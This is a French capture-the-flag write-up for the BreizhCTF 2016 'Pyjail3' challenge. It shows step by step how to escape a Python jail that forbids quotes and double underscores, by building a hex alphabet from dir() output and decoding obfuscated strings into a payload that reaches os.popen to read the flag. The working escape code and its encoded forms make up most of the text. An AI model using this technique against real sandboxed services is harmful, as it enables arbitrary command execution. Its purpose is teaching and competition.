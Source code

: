 # BREIZHCTF 2K16
**Chall:** Pyjail3
**Points:** 300 |
**Taux de réussite:** 7% |


Dans ce challenge on reste dans la même logique que les deux précédents (sortir du jail), sauf que cette fois ci on a plus droit au caractères suivants : " ' __ 

On peut directement eliminé l'approche utilisée pour le pyjail2 car on a plus de moyen d'envoyer une chaine de caractères au programme. Reste l'approche du payjail1, mais celle ci necéssite des caractères non autorisés dans ce chall :/

Après beaucoup de M&Ms et de l'eau du robinet :p 

En listant les outils qu'on a :
 - La fonction dir
 - La fonction _
 - La declaration de variables de type autre que str (a = 2)

L'idée de contruire une chaine de caractères qui sera notre payload pour récupérer le flag semble la plus pertinente, on sait que notre payload est le suivant :

```
>wclass = ().__class__.__base__.__subclasses__()[59]()
>print wclass._module.__builtins__['__import__']('os').popen('cat flag').read()
 ```

En utilisant la fonction dir on peut instancier un objet de type str :
```
> a= 2
> print dir(a)
['__abs__', '__add__', '__and__', '__class__', '__cmp__', '__coerce__', '__delattr__', '__div__', '__divmod__', '__doc__', '__float__', '__floordiv__', '__format__', '__getattribute__', '__getnewargs__', '__hash__', '__hex__', '__index__', '__init__', '__int__', '__invert__', '__long__', '__lshift__', '__mod__', '__mul__', '__neg__', '__new__', '__nonzero__', '__oct__', '__or__', '__pos__', '__pow__', '__radd__', '__rand__', '__rdiv__', '__rdivmod__', '__reduce__', '__reduce_ex__', '__repr__', '__rfloordiv__', '__rlshift__', '__rmod__', '__rmul__', '__ror__', '__rpow__', '__rrshift__', '__rshift__', '__rsub__', '__rtruediv__', '__rxor__', '__setattr__', '__sizeof__', '__str__', '__sub__', '__subclasshook__', '__truediv__', '__trunc__', '__xor__', 'bit_length', 'conjugate', 'denominator', 'imag', 'numerator', 'real']
> b = dir(a)[0]
> print b
'__abs__'
```
Comme notre payload contient plein de caractères non alphabétiques il sera dur pour nous de les retrouver juste avec ce qu'on a, mais, si on encode le payload en base 16 (hex) l'alphabet sera réduit à 16 caractères !
En plus pour notre objet de type str on a les deux méthodes "encode" et "decode" qui sont autorisées \o/

```
>print b.encode
<built-in method encode of str object at 0x7f942313e780>
>print b.decode
<built-in method decode of str object at 0x7f942313e780>
```

Reste plus qu'a contruire l'alphabet hexadecimal, on récupère d'abord le mot hex pour qu'on puisse le passer aux deux méthodes "encode" et "decode".
```
> hex = dir(a)[16][2:5]
> print b.encode(hex)
5f5f6162735f5f
```

Une fois cette opération possible on passe à l'étape suivante qui consiste en la création de l'alphabet hex : 
```
>tmp = [c.encode(hex) for c in dir(b)]
>print tmp
['5f5f6164645f5f', '5f5f636c6173735f5f', '5f5f636f6e7461696e735f5f', '5f5f64656c617474725f5f', '5f5f646f635f5f', '5f5f65715f5f', '5f5f666f726d61745f5f', '5f5f67655f5f', '5f5f6765746174747269627574655f5f', '5f5f6765746974656d5f5f', '5f5f6765746e6577617267735f5f', '5f5f676574736c6963655f5f', '5f5f67745f5f', '5f5f686173685f5f', '5f5f696e69745f5f', '5f5f6c655f5f', '5f5f6c656e5f5f', '5f5f6c745f5f', '5f5f6d6f645f5f', '5f5f6d756c5f5f', '5f5f6e655f5f', '5f5f6e65775f5f', '5f5f7265647563655f5f', '5f5f7265647563655f65785f5f', '5f5f726570725f5f', '5f5f726d6f645f5f', '5f5f726d756c5f5f', '5f5f736574617474725f5f', '5f5f73697a656f665f5f', '5f5f7374725f5f', '5f5f737562636c617373686f6f6b5f5f', '5f666f726d61747465725f6669656c645f6e616d655f73706c6974', '5f666f726d61747465725f706172736572', '6361706974616c697a65', '63656e746572', '636f756e74', '6465636f6465', '656e636f6465', '656e647377697468', '657870616e6474616273', '66696e64', '666f726d6174', '696e646578', '6973616c6e756d', '6973616c706861', '69736469676974', '69736c6f776572', '69737370616365', '69737469746c65', '69737570706572', '6a6f696e', '6c6a757374', '6c6f776572', '6c7374726970', '706172746974696f6e', '7265706c616365', '7266696e64', '72696e646578', '726a757374', '72706172746974696f6e', '7273706c6974', '727374726970', '73706c6974', '73706c69746c696e6573', '73746172747377697468', '7374726970', '7377617063617365', '7469746c65', '7472616e736c617465', '7570706572', '7a66696c6c']


> alphabet = tmp[0][5]+tmp[3][-5]
>print alphabet
12
```

Et on continue jusqu'à ce que :
```
>print alphabet
1234567890abcdef
```

Une fois l'alphabet prêt on encode les deux instructions de notre payload en hexa : 
```
>>> "wclass = ().__class__.__base__.__subclasses__()[59]()".encode('hex')
'77636c617373203d2028292e5f5f636c6173735f5f2e5f5f626173655f5f2e5f5f737562636c61737365735f5f28295b35395d2829'
>>> "print wclass._module.__builtins__['__import__']('os').popen('cat flag').read()".encode('hex')
'7072696e742077636c6173732e5f6d6f64756c652e5f5f6275696c74696e735f5f5b275f5f696d706f72745f5f275d28276f7327292e706f70656e282763617420666c616727292e726561642829'
```

Sachant que les deux méthodes "encode" et "decode" retournent une chaine de caractères comme résultat, l'idée est d'envoyer ces deux lignes en hex au programme et que le programme les décode pour les envoyer à la fonction "_" qui prend en paramètre une chaine de caractères.
En utilisant le petit programme python 'generator.py' on transforme le code hexa en plusieurs accès à la liste alphabet qui contient l'alphabet hexadécimal (ce qui nous permet d'envoyer au programme que des caractères autorisés).

Initialisation de la variable wcalss : 
```
> _((alphabet[6]+alphabet[6]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+
alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[1]+alphabet[9]+alphabet[2]+alphabet[13]+
alphabet[1]+alphabet[9]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+
alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+
alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+
alphabet[5]+alphabet[1]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[5]+alphabet[4]+
alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[4]+alphabet[5]+alphabet[1]+
alphabet[5]+alphabet[2]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+
alphabet[6]+alphabet[2]+alphabet[5]+alphabet[4]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]+alphabet[4]+alphabet[11]+
alphabet[2]+alphabet[4]+alphabet[2]+alphabet[8]+alphabet[4]+alphabet[13]+alphabet[1]+alphabet[7]+
alphabet[1]+alphabet[8]).decode(hex))	

>print wclass
catch_warnings()
```

Récupération du flag :
```
> _((alphabet[6]+alphabet[9]+alphabet[6]+alphabet[1]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[14]+
alphabet[6]+alphabet[3]+alphabet[1]+alphabet[9]+alphabet[6]+alphabet[6]+alphabet[5]+alphabet[2]+
alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[2]+alphabet[6]+alphabet[2]+
alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[13]+alphabet[5]+alphabet[15]+
alphabet[5]+alphabet[3]+alphabet[6]+alphabet[4]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[4]+
alphabet[1]+alphabet[14]+alphabet[4]+alphabet[15]+alphabet[4]+alphabet[15]+alphabet[5]+alphabet[1]+
alphabet[6]+alphabet[4]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[12]+alphabet[6]+alphabet[3]+
alphabet[5]+alphabet[8]+alphabet[5]+alphabet[14]+alphabet[6]+alphabet[2]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[4]+alphabet[11]+alphabet[1]+alphabet[6]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[5]+alphabet[8]+alphabet[5]+alphabet[13]+alphabet[6]+alphabet[9]+
alphabet[5]+alphabet[15]+alphabet[6]+alphabet[1]+alphabet[6]+alphabet[3]+alphabet[4]+alphabet[15]+
alphabet[4]+alphabet[15]+alphabet[1]+alphabet[6]+alphabet[4]+alphabet[13]+alphabet[1]+alphabet[7]+
alphabet[1]+alphabet[6]+alphabet[5]+alphabet[15]+alphabet[6]+alphabet[2]+alphabet[1]+alphabet[6]+
alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+alphabet[6]+alphabet[9]+alphabet[5]+alphabet[15]+
alphabet[6]+alphabet[9]+alphabet[5]+alphabet[4]+alphabet[5]+alphabet[14]+alphabet[1]+alphabet[7]+
alphabet[1]+alphabet[6]+alphabet[5]+alphabet[2]+alphabet[5]+alphabet[0]+alphabet[6]+alphabet[3]+
alphabet[1]+alphabet[9]+alphabet[5]+alphabet[5]+alphabet[5]+alphabet[12]+alphabet[5]+alphabet[0]+
alphabet[5]+alphabet[6]+alphabet[1]+alphabet[6]+alphabet[1]+alphabet[8]+alphabet[1]+alphabet[14]+
alphabet[6]+alphabet[1]+alphabet[5]+alphabet[4]+alphabet[5]+alphabet[0]+alphabet[5]+alphabet[3]+
alphabet[1]+alphabet[7]+alphabet[1]+alphabet[8]).decode(hex))

BZH{wow super flag \o/}
```


